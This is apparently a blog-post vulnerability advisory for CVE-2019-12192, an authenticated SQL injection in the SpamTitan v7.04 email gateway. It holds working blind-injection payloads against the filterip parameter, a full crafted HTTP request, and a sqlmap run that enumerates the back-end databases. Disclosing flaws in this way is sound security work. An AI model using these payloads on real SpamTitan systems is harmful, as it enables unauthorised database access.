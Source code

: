 ```yaml
---
layout: post
title:  "SQL Injection in SpamTitan Gateway appliance"
date:   2019-05-05 19:51:02 +0700 
categories: [cve]
---
```


Vulnerability: SQL Injection

Vendor: TitanHQ is a trading name of Copperfasten Technologies, 

Product: SpamTitan

Version affected: SpamTitan v7.04, which was the latest available version as of 05/05/2019

#### Product description:

"SpamTitan is a full-service email security solution which protects your business, your employees and your clients.
The solution is extraordinarily simple to set up and manage and provides among its many features 99.97% spam detection,
virus and malware blocking, authentication control, outbound scanning as well as robust reporting structures.
Central to everything we do is our service commitment to our worldwide client base, start our free trial today and see why so many
global brands trust us with their business." as per statement on TitanHQ Spamtitan website. 

* CVE ID: CVE-2019-12192
* CWE ID: CWE-89

##### Proof of Concept

The authenticated SQL Injection vulnerability can be exploited by issuing a specially crafted HTTP GET request. SpamTitan v6 application fails to properly sanitize untrusted data before adding it to a SQL query. A malicious attacker can include own SQL commands which database will execute.

Identified vulnerable parameters: filterip  

{% highlight ruby %}
---
Parameter: filterip (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: getHistory&sortdir=yui-dt-desc&sortkey=ts&startIndex=0&results=100&alltypes=1&historytype=C&setperiod=2&starttime=&endtime=&localonly=1&now=1556966449&filterflow=0&filterfrom=&filterto=&filterid=&filterscoretype=scoreany&filterscore=&filterdelivery=Any&filtersubject=&filterip=' AND (SELECT (CASE WHEN (8159=8159) THEN NULL ELSE CAST((CHR(87)||CHR(70)||CHR(105)||CHR(97)) AS NUMERIC) END)) IS NULL AND 'ZEZl'='ZEZl

    Type: AND/OR time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: getHistory&sortdir=yui-dt-desc&sortkey=ts&startIndex=0&results=100&alltypes=1&historytype=C&setperiod=2&starttime=&endtime=&localonly=1&now=1556966449&filterflow=0&filterfrom=&filterto=&filterid=&filterscoretype=scoreany&filterscore=&filterdelivery=Any&filtersubject=&filterip=' AND 6154=(SELECT 6154 FROM PG_SLEEP(5)) AND 'ahTq'='ahTq
---
{% endhighlight %}


#### Request:
{% highlight ruby %}
GET /history-x.php?getHistory&sortdir=yui-dt-desc&sortkey=ts&startIndex=0&results=100&alltypes=1&historytype=C&setperiod=2&starttime=&endtime=&localonly=1&now=1556966449&filterflow=0&filterfrom=&filterto=&filterid=&filterscoretype=scoreany&filterscore=&filterdelivery=Any&filtersubject=&filterip= HTTP/1.1
Host: 10.0.0.120
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: st-lastroletype=admin; st-domains=domain%3Ayui-dt-asc%3A15; st-trust=ip%3Ayui-dt-asc%3A15; st-smart=sender%3Ayui-dt-asc%3A15; st-whiteip=ip%3Ayui-dt-asc%3A15; st-blackip=ip%3Ayui-dt-asc%3A15; st-tls=domain%3Ayui-dt-asc%3A15; st-tld=tld%3Ayui-dt-asc%3A15; st-spf=ip%3Ayui-dt-asc%3A15; st-etrnblock=ip%3Ayui-dt-asc%3A15; st-etrnallow=ip%3Ayui-dt-asc%3A15; st-dkim=domain%3Ayui-dt-asc%3A15; st-greyip=ip%3Ayui-dt-asc%3A15; st-rbl=ip%3Ayui-dt-asc%3A15; st-greyname=name%3Ayui-dt-asc%3A15; st-greyrcpt=name%3Ayui-dt-asc%3A15; st-domainpolicies=domain%3Ayui-dt-asc%3A15; st-userpolicies=policy_name%3Ayui-dt-asc%3A15; st-realmadmins=email%3Ayui-dt-asc%3A15; st-admins=email%3Ayui-dt-asc%3A15; st-domainadmins=email%3Ayui-dt-asc%3A15; st-realms=name%3Ayui-dt-asc%3A15; PHPSESSID=77bf2e88fe78fe4db58e35f886be8fa4; st-authdomains=domain%3Ayui-dt-asc%3A5; st-disclaimers=domain%3AASC%3A25; st-disclaimers-exemptions=email%3AASC%3A25; wblist-email=email%3Ayui-dt-asc%3A25; wblist-domain=email%3Ayui-dt-asc%3A25; keywords-W=pattern%3Ayui-dt-asc%3A5; keywords-B=pattern%3Ayui-dt-asc%3A5; qset=bspam_level%3Ayui-dt-asc%3A3%3A150; HistoryRequestOpts=100%3A2; st-todaysreports=ts%3Ayui-dt-asc%3A25; st-scheduledreports=email%3Ayui-dt-asc%3A25; st-archivereports=ctime%3Ayui-dt-asc%3A25; st-alerts=name%3Ayui-dt-asc%3A10; st-roles=name%3Ayui-dt-asc%3A15; st-ratecontrols=10; locale=en_US; st-filter=name%3Ayui-dt-asc%3A10; HistoryDisplayOpts=Y%3AY%3AY%3AY%3AY%3AY%3AY%3AY%3AY%3AY; HistoryClusterOpts=Y%3AY
Upgrade-Insecure-Requests: 1
{% endhighlight %}

#### SQLmap tool (Automatic SQL injection and database takeover tool) used to retrieve available databases: 
{% highlight ruby %}
root@kali:~# sqlmap -r spamtitan-sql.txt --level=5 --risk=3 --dbms=postgres -p filterip --dbs
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.5#pip}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting at 08:22:44

[08:22:44] [INFO] parsing HTTP request from 'spamtitan-sql.txt'
[08:22:44] [WARNING] provided value for parameter 'filterip' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[08:22:44] [INFO] testing connection to the target URL
[08:22:44] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: filterip (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: getHistory&sortdir=yui-dt-desc&sortkey=ts&startIndex=0&results=100&alltypes=1&historytype=C&setperiod=2&starttime=&endtime=&localonly=1&now=1556966449&filterflow=0&filterfrom=&filterto=&filterid=&filterscoretype=scoreany&filterscore=&filterdelivery=Any&filtersubject=&filterip=' AND (SELECT (CASE WHEN (8159=8159) THEN NULL ELSE CAST((CHR(87)||CHR(70)||CHR(105)||CHR(97)) AS NUMERIC) END)) IS NULL AND 'ZEZl'='ZEZl

    Type: AND/OR time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: getHistory&sortdir=yui-dt-desc&sortkey=ts&startIndex=0&results=100&alltypes=1&historytype=C&setperiod=2&starttime=&endtime=&localonly=1&now=1556966449&filterflow=0&filterfrom=&filterto=&filterid=&filterscoretype=scoreany&filterscore=&filterdelivery=Any&filtersubject=&filterip=' AND 6154=(SELECT 6154 FROM PG_SLEEP(5)) AND 'ahTq'='ahTq
---
[08:22:44] [INFO] testing PostgreSQL
[08:22:44] [INFO] confirming PostgreSQL
[08:22:44] [INFO] the back-end DBMS is PostgreSQL
web application technology: Apache
back-end DBMS: PostgreSQL
[08:22:44] [WARNING] schema names are going to be used on PostgreSQL for enumeration as the counterpart to database names on other DBMSes
[08:22:44] [INFO] fetching database (schema) names
[08:22:44] [INFO] fetching number of databases
[08:22:44] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[08:22:44] [INFO] retrieved: 
you provided a HTTP Cookie header value. The target URL provided its own cookies within the HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y

[08:22:46] [WARNING] (case) time-based comparison requires larger statistical model, please wait.............................. (done)
[08:22:48] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[08:23:09] [INFO] adjusting time delay to 2 seconds due to good response times
3
[08:23:09] [INFO] retrieved: 
[08:23:09] [WARNING] (case) time-based comparison requires larger statistical model, please wait.............................. (done)
[08:23:18] [INFO] adjusting time delay to 1 second due to good response times
information_schema
[08:24:23] [INFO] retrieved: 
[08:24:23] [INFO] retrieved: pg_catalog
[08:25:04] [INFO] retrieved: 
[08:25:04] [INFO] retrieved: public
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
{% endhighlight %}

#### References
1. https://www.owasp.org/index.php/SQL_Injection
2. https://www.titanhq.com/spamtitan
3. https://www.spamtitan.com/wp-content/uploads/2016/02/Titan_HQ_SpamTitan_Gateway_datasheet_.pdf
4. https://www.spamtitan.com/spamtitan-gateway-sign-up-confirmation/

